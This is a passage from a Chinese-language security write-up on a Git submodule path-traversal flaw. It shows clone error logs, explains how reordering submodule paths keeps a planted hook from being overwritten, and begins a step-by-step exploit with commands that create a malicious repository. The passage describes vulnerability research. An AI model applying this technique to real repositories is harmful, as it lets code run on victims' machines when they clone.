 ```
Submodule '../../fakegit/modules/submod' (https://github.com/staaldraad/repository.git) registered for path 'submod'
Cloning into '/tmp/c/v/subs/submod'...
fatal: /tmp/c/v/subs/.git/modules/../../fakegit/modules/submod already exists
fatal: clone of 'https://github.com/staaldraad/repository.git' into submodule path '/tmp/c/v/subs/submod' failed
Failed to clone 'submod'. Retry scheduled
Cloning into '/tmp/c/v/subs/submod'...
remote: Counting objects: 274, done.        
remote: Compressing objects: 100% (227/227), done.        
remote: Total 274 (delta 14), reused 268 (delta 8), pack-reused 0        
Receiving objects: 100% (274/274), 44.03 KiB | 392.00 KiB/s, done.
Resolving deltas: 100% (14/14), done.
Submodule path 'submod': checked out 'cc0db68d85f7ce60a51c62bf451d7575e5a9a89e'
Submodule path 'submod': checked out 'cc0db68d85f7ce60a51c62bf451d7575e5a9a89e'
```

回想一下，我之前曾经提到过，这个遍历漏洞允许我覆盖任意文件夹。而这正是我们失败的原因，子模块尝试在我们伪造的位置初始化子模块仓库，但此时文件夹已经存在，所以它会删除其中的内容，并且尝试。这样一来，就会覆盖我们所特制的攻击，该钩子也永远不会触发。

```
fatal: /tmp/c/v/subs/.git/modules/../../fakegit/modules/submod already exists
fatal: clone of 'https://github.com/staaldraad/repository.git' into submodule path '/tmp/c/v/subs/submod' failed
Failed to clone 'submod'. Retry scheduled
Cloning into '/tmp/c/v/subs/submod'...
```

事已至此，我不打算放弃，接下来我们要解决的问题就只是“防止Git覆盖钩子”。在不断尝试的过程中，我多次遇到了失败，即使使用了第二个子模块成功写入文件夹，最终也会被覆盖。

### <a class="reference-link" name="3.4%20%E8%A7%A3%E5%86%B3%E9%92%A9%E5%AD%90%E8%A2%AB%E8%A6%86%E7%9B%96%E7%9A%84%E9%97%AE%E9%A2%98"></a>3.4 解决钩子被覆盖的问题

经过多次尝试后，我开始回顾之前的操作。在之前，我总是为第二个子模块选择了第一个子模块字母顺序之后的路径。这就意味着，第一个模块将尝试被创建，失败后第二个模块将被添加，然后第一个模块会被再次复制。在尝试不同的攻击方法时，我无意中将第二个模块的路径修改成了字母顺序在第一个模块之前，即第二个路径是mod1，第一个路径是submod。<br>
就这一个小小的变化，却触发了一个新的代码路径，而我之前并没有想到会发生这样的情况。当$GIT_DIR/modules中存在一个或多个子模块时，我们的遍历子模块不会覆盖任何文件。通过第二个子模块的初始化过程，就可以创建$GIT_DIR/modules/mod目录，同时将fakegit/modules/submod作为有效路径接受，并且不发生覆盖的情况。这样一来，钩子就仍然存在，我们可以触发钩子！



## 四、漏洞利用

### <a class="reference-link" name="4.1%20%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B"></a>4.1 漏洞利用过程

目前，思路已经清晰，接下来就要整合攻击链了。要利用这一漏洞，需要我们创建“恶意”的仓库，我们的目标将会对其进行复制。<br>
1、首先创建Repo：

```
mkdir badrepo
cd badrepo
git init
git remote add origin https://github.com/staaldraad/demosub.git
```
